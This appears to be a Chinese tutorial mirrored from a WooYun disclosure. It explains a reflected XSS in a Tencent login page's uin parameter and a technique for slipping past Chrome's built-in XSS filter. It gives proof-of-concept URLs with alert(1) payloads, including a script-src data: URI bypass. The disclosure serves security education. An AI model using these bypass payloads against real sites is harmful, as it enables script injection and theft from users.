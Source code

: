 # 17\. XSS 过滤器绕过 [通用绕过]

> 来源：[17\. XSS 过滤器绕过 [通用绕过]](http://www.wooyun.org/bugs/wooyun-2010-016672)

## 简要描述

关于反射型的基本东西，暂时就到这啦，如果后面有什么好的 case，再做增补。最近，有些人会问到怎么绕过浏览器的 XSS 过滤 器，所以从这节开始，给出点绕过的例子。当然这些绕过浏览器的方法，不是万能的。不同浏览器，不同场景都会存在差异。满足场景 要求时，才可以使用。

此文给出的是一个来自 sogili 分享的 chrome 下绕过过滤器的方法，在腾讯某处 XSS 上的应用。 这一类都算是“结合了一定场景”，绕过了浏览器自身的防御机制，具有一定的通用性，我们称为“通用绕过”（瞎起的名字，别在意）。但是在后续版本的浏览器中，这些技巧可能会被浏览器干掉从而失效。再次强调：通用不是全部都行，意思是所适用的场景实际发生的概率比较高！

## 详细说明

1\. 其实就是个普通的 XSS 点，uin 参数没有对任何字符进行过滤。

```
http://bangbang.qq.com/php/login?game=roco&uin](http://bangbang.qq.com/php/login?game=roco&uin)="><img src=1 onerror=alert(1)>&world=5&roleid=44583443&level=8&role=%2 
```

2\. 正是由于这个点什么都没过滤，浏览器自身的防御机制也最好发挥作用，瞧瞧，chrome 拦截了。。

![image](img/Image_093.jpg)

有的新手，不知道有过滤器的，更是会觉得 “啊，这是怎么回事，怎么不行啊，明明可以的。。” 我们只要看到 console 里有上面那句，就说明 chrome 的过滤器大发神威了！！

3\. 我们也看看源码。

![image](img/Image_094.jpg)

危害部分被和谐了。

4\. 那么怎么绕过呢？ 这里直接说方法。

5\. 首先要求缺陷点，允许 `<` , `>` 。其次，要求缺陷点的后方存在 `</script>` 标签。 我们看看当前的这个点的代码。

```
...
<input type="hidden" id="sClientUin" value=""><img src=1 onerror=alert(1)>">
...
<script type="text/javascript" src="http://pingjs.qq.com/tcss.ping.js"></script>
... 
```

6\. 可以看到上面的要求均满足。我们就可以使用以下技巧。

7\. 代入到我们的利用代码里。

```
http://bangbang.qq.com/php/login?game=roco&uin="><script src=data:,alert(1)<!--&world=5&roleid=44583443&level=8&role=%2 
```

这次，我们就成功啦。

![image](img/Image_095.jpg)

## 修复方案

参见教程 （1\. 什么都没过滤的入门情况）